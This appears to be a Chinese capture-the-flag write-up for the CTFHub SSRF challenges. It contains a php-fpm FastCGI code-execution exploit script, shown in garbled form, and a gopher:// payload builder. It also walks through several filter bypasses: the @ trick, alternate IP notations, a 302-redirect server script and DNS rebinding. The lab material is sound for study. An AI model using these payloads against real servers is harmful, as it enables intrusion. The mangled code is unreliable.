randomimport argparseimport sysfrom io import BytesIOTrue if sys.version_info.major == 2 else False def bchr (i ):if PY2:return force_bytes(chr (i))else :return bytes ([i])def bord (c ):if isinstance (c, int ):return celse :return ord (c)def force_bytes (s ):if isinstance (s, bytes ):return selse :return s.encode('utf-8' , 'strict' )def force_text (s ):if issubclass (type (s), str ):return sif isinstance (s, bytes ):str (s, 'utf-8' , 'strict' )else :str (s)return sclass FastCGIClient :"""A Fast-CGI Client for Python""" 1 1 2 3 1 2 3 4 5 6 7 8 9 10 11 8 1 2 3 def __init__ (self, host, port, timeout, keepalive ):if keepalive:1 else :0 None dict ()def __connect (self ):1 )try :int (self.port)))except socket.error as msg:None print (repr (msg))return False return True def __encodeFastCGIRecord (self, fcgi_type, content, requestid ):len (content)8 ) & 0xFF ) \0xFF ) \8 ) & 0xFF ) \0xFF ) \0 ) \0 ) \return bufdef __encodeNameValueParams (self, name, value ):len (name)len (value)b'' if nLen < 128 :else :24 ) | 0x80 ) \16 ) & 0xFF ) \8 ) & 0xFF ) \0xFF )if vLen < 128 :else :24 ) | 0x80 ) \16 ) & 0xFF ) \8 ) & 0xFF ) \0xFF )return record + name + valuedef __decodeFastCGIHeader (self, stream ):dict ()'version' ] = bord(stream[0 ])'type' ] = bord(stream[1 ])'requestId' ] = (bord(stream[2 ]) << 8 ) + bord(stream[3 ])'contentLength' ] = (bord(stream[4 ]) << 8 ) + bord(stream[5 ])'paddingLength' ] = bord(stream[6 ])'reserved' ] = bord(stream[7 ])return headerdef __decodeFastCGIRecord (self, buffer ):int (self.__FCGI_HEADER_SIZE))if not header:return False else :'content' ] = b'' if 'contentLength' in record.keys():int (record['contentLength' ])'content' ] += buffer.read(contentLength)if 'paddingLength' in record.keys():int (record['paddingLength' ]))return recorddef request (self, nameValuePairs={}, post='' ):if not self.__connect():print ('connect failure! please check your fasctcgi-server !!' )return 1 , (1 << 16 ) - 1 )dict ()b"" 0 ) \0 ) * 5 b'' if nameValuePairs:for (name, value) in nameValuePairs.items():if paramsRecord:b'' , requestId)if post:b'' , requestId)'state' ] = FastCGIClient.FCGI_STATE_SEND'response' ] = b'' return self.__waitForResponse(requestId)def __waitForResponse (self, requestId ):b'' while True :512 )if not len (buf):break while True :if not response:break if response['type' ] == FastCGIClient.__FCGI_TYPE_STDOUT \or response['type' ] == FastCGIClient.__FCGI_TYPE_STDERR:if response['type' ] == FastCGIClient.__FCGI_TYPE_STDERR:'state' ] = FastCGIClient.FCGI_STATE_ERRORif requestId == int (response['requestId' ]):'response' ] += response['content' ]if response['type' ] == FastCGIClient.FCGI_STATE_SUCCESS:return self.requests[requestId]['response' ]def __repr__ (self ):return "fastcgi connect host:{} port:{}" .format (self.host, self.port)if __name__ == '__main__' :'Php-fpm code execution vulnerability client.' )'host' , help ='Target host, such as 127.0.0.1' )'file' , help ='A php file absolute path, such as /usr/local/lib/php/System.php' )'-c' , '--code' , help ='What php code your want to execute' , default='<?php phpinfo(); exit; ?>' )'-p' , '--port' , help ='FastCGI port' , default=9000 , type =int )3 , 0 )dict ()"/" 'GATEWAY_INTERFACE' : 'FastCGI/1.0' ,'REQUEST_METHOD' : 'POST' ,'SCRIPT_FILENAME' : documentRoot + uri.lstrip('/' ),'SCRIPT_NAME' : uri,'QUERY_STRING' : '' ,'REQUEST_URI' : uri,'DOCUMENT_ROOT' : documentRoot,'SERVER_SOFTWARE' : 'php/fcgiclient' ,'REMOTE_ADDR' : '127.0.0.1' ,'REMOTE_PORT' : '9985' ,'SERVER_ADDR' : '127.0.0.1' ,'SERVER_PORT' : '80' ,'SERVER_NAME' : "localhost" ,'SERVER_PROTOCOL' : 'HTTP/1.1' ,'CONTENT_TYPE' : 'application/text' ,'CONTENT_LENGTH' : "%d" % len (content),'PHP_VALUE' : 'auto_prepend_file = php://input' ,'PHP_ADMIN_VALUE' : 'allow_url_include = On'
同时可以在vps或者kali上开启监听，这里我用kali监听，并且将监听到的流量给了1.txt

同时我们在本地上执行上述exp
得到1.txt我们需要对其中的内容进行两次url编码
1 python [脚本名] -c [要执行的代码] -p [端口号] [ip] [要执行的php文件]
1 2 3 4 5 import urllib.parseopen ('1.txt' ,'rb' )"%0A" ,"%0A%0D" )print ("gopher://127.0.0.1:9000/_" +urllib.parse.quote(payload))
将得到的内容直接传入url即可，如下图可以看到虽然乱码，但是我们知道了当前flag文件的位置了
接下来就是进行读取了，步骤同上述即可
URL Bypass
至于那个打Redis的放在其他文章了，这里懒得在写一次了。
这里根据提示url后面必须以上面的开头，直接@绕过：
1 2 3 4 采用http基本身份认证的方式绕过：
构造：?url=http://notfound.ctfhub.com@127.0.0.1/flag.php即可
数字IP Bypass
题目提示：这次ban掉了127以及172.不能使用点分十进制的IP了。但是又要访问127.0.0.1。该怎么办呢
这里看到了ban的信息，127、172、@、. 均被过滤，这里看到一个IP进制转换的网址很不错：
https://tool.520101.com/wangluo/jinzhizhuanhuan/

我们对上述的进制一个个尝试一下，发现十进制的可以利用
tips：
1 2 3 4 5 6 7 8 127.0 .0 .1 ：八进制：0177.0 .0 .1 十六进制：0 x7f.0 .0 .1 十进制：2130706433 127.0 .0 .1 ）0177.00 .00 .01 2130706433 0 x7f.0x0 .0x0 .0x1 127.1
302跳转 Bypass
题目提示：SSRF中有个很重要的一点是请求可能会跟随302跳转，尝试利用这个来绕过对IP的检测访问到位于127.0.0.1的flag.php吧
我们先利用file协议读取源码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 <?php error_reporting (0 );if (!isset ($_REQUEST ['url' ])) {header ("Location: /?url=_" );exit ;$url = $_REQUEST ['url' ];if (preg_match ("/127|172|10|192/" , $url )) {exit ("hacker! Ban Intranet IP" );$ch = curl_init ();curl_setopt ($ch , CURLOPT_URL, $url );curl_setopt ($ch , CURLOPT_HEADER, 0 );curl_setopt ($ch , CURLOPT_FOLLOWLOCATION, 1 );curl_exec ($ch );curl_close ($ch );
不过可以看到这里的过滤并不全，利用进制转换依旧可以绕过，但我们还是要学一下302跳转的。
原理：需要一个vps，把302转换的代码部署到vps上，然后去访问，就可跳转到内网中，服务端代码如下：
1 2 3 4 <?php header ("Location: http://127.0.0.1/flag.php" ); exit (); ?>
DNS重绑定 Bypass
题目提示：关键词：DNS重绑定。剩下的自己来吧，也许附件中的链接能有些帮助
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 <?php error_reporting (0 );if (!isset ($_REQUEST ['url' ])) {header ("Location: /?url=_" );exit ;$url = $_REQUEST ['url' ];if (preg_match ("/127|172|10|192/" , $url )) {exit ("hacker! Ban Intranet IP" );$ch = curl_init ();curl_setopt ($ch , CURLOPT_URL, $url );curl_setopt ($ch , CURLOPT_HEADER, 0 );curl_exec ($ch );curl_close ($ch );
源码没变，依照题目的意思：我们知道我们在输入域名的时候，对方的DNS服务器会将其解析为对应IP地址，随后判断IP地址是否安全，如果安全在curl去请求这个IP地址，但从这个解析判断到curl请求的过程中有一个时间差，我们可以利用该时间差进行攻击。
先搞一个域名让其解析的IP地址为一个安全的，随后在对方服务器成功解析并判断IP安全之后，在将域名绑定为127.0.0.1等内网IP，随后成功绕过限制而被curl去请求。这里用到个网站：
https://lock.cmpxchg8b.com/rebinder.html
简单来说我们在上面写一个正常IP，和一个非正常IP，接着这个网站会自动生成一个TTL值很低的域名，这意味着该DNS记录在DNS服务器上的缓存时间就很小，导致修改记录之后在各地的生效时间加快。
意味着如果我们临时改变域名指向的IP，他会很快知悉到这个域名解析变化，并顺应我们的改变快速将域名解析到其他IP。
具体可参考：https://zhuanlan.zhihu.com/p/89426041
0x03 参考文章
http协议参考：HTTP/1.1详解
CTFHub-Web-信息泄露-Git泄露
命令注入 –管道符命令的解释参考
CTFHub技能树 Web-SSRF POST请求
CTFHub技能树笔记之SSRF：POST请求、文件上传
SSRF详解 基于CTFHub（上篇）